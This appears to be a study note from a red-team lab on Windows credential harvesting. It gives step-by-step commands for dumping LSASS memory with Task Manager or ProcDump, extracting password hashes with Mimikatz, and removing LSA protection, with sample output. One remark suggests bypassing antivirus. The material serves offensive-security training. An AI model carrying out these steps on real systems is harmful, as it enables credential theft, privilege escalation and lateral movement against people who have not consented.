 Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. It verifies logged in accounts and ensures passwords, hashes, and Kerberos tickets. Windows system stores credentials in the LSASS process to enable users to access network resources, such as file shares, SharePoint sites, and other network services, without entering credentials every time a user connects.

Local Security Authority Server Service (LSASS) is a Windows process that handles the operating system security policy and enforces it on a system. It verifies logged in accounts and ensures passwords, hashes, and Kerberos tickets. Windows system stores credentials in the LSASS process to enable users to access network resources, such as file shares, SharePoint sites, and other network services, without entering credentials every time a user connects.

Thus, the LSASS process is a juicy target for red teamers because it stores sensitive information about user accounts. The LSASS is commonly abused to dump credentials to either escalate privileges, steal data, or move laterally. Luckily for us, if we have administrator privileges, we can dump the process memory of LSASS. Windows system allows us to create a dump file, a snapshot of a given process. This could be done either with the Desktop access (GUI) or the command prompt. This attack is defined in the MITRE ATT&CK framework as "[OS Credential Dumping: LSASS Memory (T1003)](https://attack.mitre.org/techniques/T1003/001/)".

## Graphic User Interface (GUI)  
To dump any running Windows process using the GUI, open the Task Manager, and from the Details tab, find the required process, right-click on it, and select "Create dump file".
	![](Pasted%20image%2020241123234825.png)
Once the dumping process is finished, a pop-up message will show containing the path of the dumped file. Copy the file and transfer it to the AttackBox to extract NTLM hashes offline. 

Copy the dumped process to the Mimikatz folder.

Copying the LSASS Dumped file
```markup
C:\Users\Administrator>copy C:\Users\ADMINI~1\AppData\Local\Temp\2\lsass.DMP C:\Tools\Mimikatz\lsass.DMP
        1 file(s) copied.
```

## Sysinternals Suite
An alternative way to dump a process if a GUI is not available to us is by using ProcDump. ProcDump is a Sysinternals process dump utility that runs from the command prompt. The SysInternals Suite is already installed in the provided machine at the following path: `c:\Tools\SysinternalsSuite`

We can specify a running process, which in our case is lsass.exe, to be dumped as follows:

Dumping the LSASS Process using procdump.exe 
```markup
c:\>c:\Tools\SysinternalsSuite\procdump.exe -accepteula -ma lsass.exe c:\Tools\Mimikatz\lsass_dump

ProcDump v10.0 - Sysinternals process dump utility
Copyright (C) 2009-2020 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[09:09:33] Dump 1 initiated: c:\Tools\Mimikatz\lsass_dump-1.dmp
[09:09:33] Dump 1 writing: Estimated dump file size is 162 MB.
[09:09:34] Dump 1 complete: 163 MB written in 0.4 seconds
[09:09:34] Dump count reached.
```

Note:
	 The dump process is writing to disk. Dumping the LSASS process is a known technique used by adversaries. Thus, AV products may flag it as malicious. In the real world, you may be more creative and write code to encrypt or implement a method to bypass AV products.

## Mimikatz
[Mimikatz](https://github.com/gentilkiwi/mimikatz) is a well-known tool used for extracting passwords, hashes, PINs, and Kerberos tickets from memory using various techniques. Mimikatz is a post-exploitation tool that enables other useful attacks, such as pass-the-hash, pass-the-ticket, or building Golden Kerberos tickets. Mimikatz deals with operating system memory to access information. Thus, it requires administrator and system privileges in order to dump memory and extract credentials.

We will be using the `Mimikatz` tool to extract the memory dump of the lsass.exe process. We have provided the necessary tools for you, and they can be found at: `c:\Tools\Mimikatz`.

Remember that the LSASS process is running as a SYSTEM. Thus in order to access users' hashes, we need a system or local administrator permissions. Thus, open the command prompt and run it as administrator. Then, execute the mimikatz binary as follows:

Running mimikatz With Admin Privileges
```markup
C:\Tools\Mimikatz> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #18362 Jul 10 2019 23:09:43
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > http://pingcastle.com / http://mysmartlogon.com   ***/

mimikatz # 
```

Before dumping the memory for cashed credentials and hashes, we need to enable the SeDebugPrivilege and check the current permissions for memory access. It can be done by executing `privilege::debug` command as follows:

Checking the Current Permission to Access Memory 
```markup
mimikatz # privilege::debug
Privilege '20' OK
```

Once the privileges are given, we can access the memory to dump all cached passwords and hashes from the `lsass.exe` process using `sekurlsa::logonpasswords`

Dumping the Stored Clear-text Passwords
```markup
mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 515377 (00000000:0007dd31)
Session           : RemoteInteractive from 3
User Name         : Administrator
Domain            : THM
Logon Server      : CREDS-HARVESTIN
Logon Time        : 6/3/2022 8:30:44 AM
SID               : S-1-5-21-1966530601-3185510712-10604624-500
        msv :
         [00000003] Primary
         * Username : Administrator
         * Domain   : THM
         * NTLM     : 98d3a787a80d08385cea7fb4aa2a4261
         * SHA1     : 64a137cb8178b7700e6cffa387f4240043192e72
         * DPAPI    : bc355c6ce366fdd4fd91b54260f9cf70
...
```

**Note**:
	To get users' hashes, a user (victim) must have logged in to a system, and the user's credentials have been cached.

## Protected LSASS
In 2012, Microsoft implemented an LSA protection, to keep LSASS from being accessed to extract credentials from memory. This task will show how to disable the LSA protection and dump credentials from memory using Mimikatz. To enable LSASS protection, we can modify the registry RunAsPPL DWORD value in `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa` to 1.

The steps are similar to the previous section, which runs the Mimikatz execution file with admin privileges and enables the debug mode. If the LSA protection is enabled, we will get an error executing the "sekurlsa::logonpasswords" command.

Failing to Dump Stored Password Due to the LSA Protection
```markup
mimikatz # sekurlsa::logonpasswords
ERROR kuhl_m_sekurlsa_acquireLSA ; Handle on memory (0x00000005)
```

**Note**: 
	If this fails with an `isFileExist` error, exit mimikatz, navigate to `C:\Tools\Mimikatz\` and run the command again.

Once the driver is loaded, we can disable the LSA protection by executing the following Mimikatz command:

Removing the LSA Protection
```markup
mimikatz # !processprotect /process:lsass.exe /remove
Process : lsass.exe
PID 528 -> 00/00 [0-0-0]
```

Now, if we try to run the "sekurlsa::logonpasswords" command again, it must be executed successfully and show cached credentials in memory.